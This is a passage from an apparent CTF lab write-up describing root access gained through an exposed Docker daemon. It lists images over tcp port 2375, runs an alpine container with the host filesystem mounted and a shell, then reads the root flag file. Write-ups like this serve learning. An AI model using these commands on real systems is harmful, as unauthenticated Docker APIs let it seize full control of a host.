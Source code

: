 I had never used docker before so I did some research into the different commands I could use.  I found I could list files similarly to a normal terminal.

I didn't really know how to proceed at this point, so I decided to take a break and come back to it the next day.  I watched some other docker-related CTF tutorials and found that you can mount an image file using `docker run`.  I first had a look to see if there were any image files available.

```
$ DOCKER_HOST=tcp://10.10.148.224:2375 docker image ls
REPOSITORY                                    TAG       IMAGE ID       CREATED        SIZE
exif-api-dev                                  latest    4084cb55e1c7   4 hours ago    214MB
exif-api                                      latest    923c5821b907   5 hours ago    163MB
frontend                                      latest    577f9da1362e   5 hours ago    138MB
endlessh                                      latest    7bde5182dc5e   24 hours ago   5.67MB
nginx                                         latest    ae2feff98a0c   3 weeks ago    133MB
debian                                        10-slim   4a9cd57610d6   3 weeks ago    69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   4 weeks ago    103MB
alpine                                        3.9       78a2ce922f86   8 months ago   5.55MB
```

Then using alpine, I mounted the image onto the `mnt/host` directory within the docker container.  I then grabbed an interactive session with `sh`:

```
$ DOCKER_HOST=tcp://$TARGET_IP:2375 docker run -it -v /:/mnt/host alpine:3.9 /bin/sh
```

I navigated to this directory and had a look around.  I found there was a `root` directory which contained the final flag...

```
$ ls -la /root
total 24
drwx------    3 root     root          4096 Jan  6 22:37 .
drwxr-xr-x   22 root     root          4096 Jan  6 16:44 ..
lrwxrwxrwx    1 root     root             9 Jan  6 17:22 .bash_history -> /dev/null
-rw-r-----    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root          4096 Jan  6 22:35 .local
-rw-r-----    1 root     root           148 Aug 17  2015 .profile
-rw-------    1 root     root            74 Jan  6 22:37 flag.txt
$ cat /root/flag.txt
Congrats, you found the real flag!

THM{c62**************************724}
```

And that's it!

### Summary and Feedback

This was a very hard challenge.  It took me a total of around 6 hours to complete this (including research) as I had never used docker in a CTF before.  The first two flags were fairly easy to get (thank you Python)
